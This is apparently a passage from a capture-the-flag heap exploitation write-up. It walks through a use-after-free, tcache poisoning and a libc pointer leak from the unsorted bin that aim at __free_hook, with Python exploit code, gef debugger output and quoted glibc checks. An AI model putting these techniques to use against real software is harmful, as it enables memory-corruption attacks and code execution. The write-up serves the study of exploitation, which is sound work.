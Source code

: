```python
for _ in range(7):
    delete(2)
    edit(2, p64(0) + p64(1) + p64(0)) # Prevent double free detection

# Free one more time and send it to the unsorted bin
delete(2)
```
And indeed we can see that everything happens as intended, we have successfully placed a chunk in the unsorted bin, and now it has a couple of pointers to the libc.
```
gef➤  heap bins unsorted
─────────────────── Unsorted Bin for arena '*0x7f530e48fb80' ───────────────────
[+] unsorted_bins[0]: fw=0x55f089d012d0, bk=0x55f089d012d0
 →   Chunk(addr=0x55f089d012e0, size=0xa0, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
gef➤  x/2gx 0x55f089d012e0
0x55f089d012e0: 0x00007f530e48fbe0  0x00007f530e48fbe0
gef➤  p (void*)&__free_hook - 0x00007f530e48fbe0
$2 = (void *) 0x2268
```
If we added to that pointer `0x2268` we would make our chunk point to `_free_hook`. But there's first another problem, when we allocate this chunk from the unsorted bin a couple of checks are going to catch us.
```c
          mchunkptr next = chunk_at_offset (victim, size);
          if (__glibc_unlikely (chunksize_nomask (next) < 2 * SIZE_SZ)
              || __glibc_unlikely (chunksize_nomask (next) > av->system_mem))
            malloc_printerr ("malloc(): invalid next size (unsorted)");
          if (__glibc_unlikely ((prev_size (next) & ~(SIZE_BITS)) != size))
            malloc_printerr ("malloc(): mismatching next->prev_size (unsorted)");
          if (__glibc_unlikely (bck->fd != victim)
              || __glibc_unlikely (victim->fd != unsorted_chunks (av)))
            malloc_printerr ("malloc(): unsorted double linked list corrupted");
          if (__glibc_unlikely (prev_inuse (next)))
            malloc_printerr ("malloc(): invalid next->prev_inuse (unsorted)");
```
So, for starters, we'd need in `__free_hook - 8` a valid chunk size, which we haven't (we have a NULL pointer there), and there's nothing we can do about it, so that alone makes impossible for us to get that sweet `__free_hook` through unsorted bin.

## Mom, where do chunks come from?
Ok, we can put a chunk in the unsorted bin, make it point to wherever we want in the libc, and then pick it up from the tcache, which won't trigger this checks. And this only requires us to place the chunk in the tcache before changing its size to 0xa0.
```python
create()
create()
create() # idx = 2, we'll overwrite size of this chunk
delete(1)
delete(0) # Now chunk #0 points to chunk with index 1

# UAF to make fwd point to chunk #2's header
edit(0, p64(0x10) + p64(0) + p64(0))

create()
create() # idx = 4, malloc() returns a pointer to chunk #2's header

# Create a chunk with PREV_INUSE set for our chunk that we'll make of size 0xa0
# Add one chunk extra to prevent it from coalescing with the top chunk
for _ in range(5):
    create()

### Keep a pointer to our chunk in the tcache's 0x20 bin
```